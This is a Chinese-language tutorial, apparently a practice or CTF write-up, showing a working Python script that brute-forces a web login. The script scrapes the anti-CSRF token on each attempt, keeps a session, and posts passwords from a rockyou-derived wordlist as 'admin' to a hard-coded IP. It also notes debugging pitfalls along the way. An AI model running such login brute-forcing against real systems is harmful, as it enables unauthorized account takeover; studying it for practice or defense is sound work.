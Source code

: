 # 1.python request模块进行破解

1. 今日份目标：暴力破解成功

2. 流程：使用python进行任务

---

> > > ## 2.步骤如下
> > >
> > > > 1. 用request模块请求url

2. 对于返回包进行切片操作，获取其中的token值
3. 将获取到的token值与字典一起发送进行暴力破解

---



# 3.步骤开始

[参考网址](<http://docs.python-requests.org/zh_CN/latest/user/quickstart.html>)

[参考网址1：用来request的用法](<https://blog.csdn.net/LOLITA0164/article/details/80176996>)

[参考网址2：最终实现方法](<https://blog.csdn.net/Danielntz/article/details/51861168>)

[参考网址3:获取token](eed1183184514fde0ef6310575f14458)

## 3.1Token获取代码如下：

```txt
import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

host = "http://119.29.175.97/c/hdyzma/"

page = urllib.request.urlopen(host)
contents = page.read()

soup = BeautifulSoup(contents,"html.parser")
#soup的用法

print(soup.find('input',style='display:none')['value'])
#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值

```

## 3.2 字典取list

[参考网址1：编码问题](<https://www.cnblogs.com/mengyu/p/6638975.html>)



---

坑点二：文件操作问题 [参考网址](<https://www.cnblogs.com/zarr12steven/p/6206600.html>)

遇到的情况：

Traceback (most recent call last):
  File "03_crake.py", line 5, in <module>
    get = f.readline()
io.UnsupportedOperation: not readable

解决方法：open函数里 'a' 改为'r'

---

---

坑点三：rockyou.txt出现编码问题

原因：rockyou文本太大，里面有一下密码会导致编码出错无法读取之类的

解决办法：新建一个simple文本，填入大概100个密码

---

---

坑点四：发包之后显示token错误

原因：发的包里没有sessionid

解决办法：加进去

解决代码：`s = requests.session()`

​			`s.get   s.post`

---

## 3.3 循环

`for get in gets`





# 4. 完成！

最后代码如下：

```txt

import urllib
import re
from bs4 import BeautifulSoup
from distutils.filelist import findall

import requests

gets = open("C:/Users/Elliot/Desktop/python_req_crack/simple.txt","r").read().splitlines()

host = "http://119.29.175.97/c/hdyzma/"

s = requests.session()


for get in gets:
    contents = s.get(host,proxies={'http': 'http://127.0.0.1:8080'}).content
    soup = BeautifulSoup(contents, "html.parser")
# soup的用法
    token = soup.find('input', style='display:none')['value']

    #print(token)


#for line in f.readlines():

    print(get)
   # print(line)

#这里用法 是  find后面一个参数是标签，然后找到特殊的字符‘style=none’，最后获取其中的value值


    url = host+'welcome.php'
    d = {'name': 'admin','password':get,'token':token }
    r = s.post(url, data=d,proxies={'http': 'http://127.0.0.1:8080'})
    r.encoding = 'UTF-8'
    print(r.text)
```



